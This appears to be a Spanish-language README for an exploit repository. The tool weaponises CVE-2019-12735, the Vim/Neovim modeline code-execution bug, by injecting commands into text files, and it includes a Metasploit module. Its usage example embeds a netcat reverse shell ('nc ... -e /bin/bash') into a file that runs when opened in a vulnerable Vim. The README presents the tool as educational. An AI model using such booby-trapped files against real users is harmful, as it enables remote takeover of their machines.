 # modeline-vim
_Script con fines educativos que explota la vulnerabilidad de vim._

## Introducción.
_El script aprovecha la vulnerabilidad([CVE-2019-12735](#referencias)) de Vim < 8.1,1365 y Neovim < 0.3.6 que permite ejecutar código dentro de un archivo de texto por medio de modelines al momento de abrirlo. Dicho script fue desarrollado con fines educativos y queda bajo responsabilidad de quien lo usa._

## Archivos.
* **modeline.sh**_, script shell que recibe como parámetro el comando a inyectar en el archivo de texto._
* **modeline.rb**_, programa en ruby que solicita el nombre del archivo, texto a ingresar en el archivo de texto y comando a inyectar._
* **modeline-vim.rb**_, módulo para metasploit._

## Instrucciones.
_Se recomienda que se abra con el editor emacs o algún otro editor de texto que sea vim, ya que se ejecuta la vulnerabilidad y distorsiona el archivo :smile:. En caso de que se desea usar vim se debe de desabilitar el modelines (**:set nomodeline**)._

_modeline.sh requiere solamente de un parámetro, el cual tiene que ser un comando con sus respectivos parámetros(opcional)._
```
chmod 700 modeline.sh
modeline.sh _comando_ > archivoTexto.
```
### Ejemplo.
_Se utilizará el comando nc para realizar un shell inverso._
```
modeline.sh nc 127.0.0.1 8888 -e /bin/bash > datos.txt
```
## Referencias.
[PoC](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md#summary)

[CVE-2019-12735](https://nvd.nist.gov/vuln/detail/CVE-2019-12735)
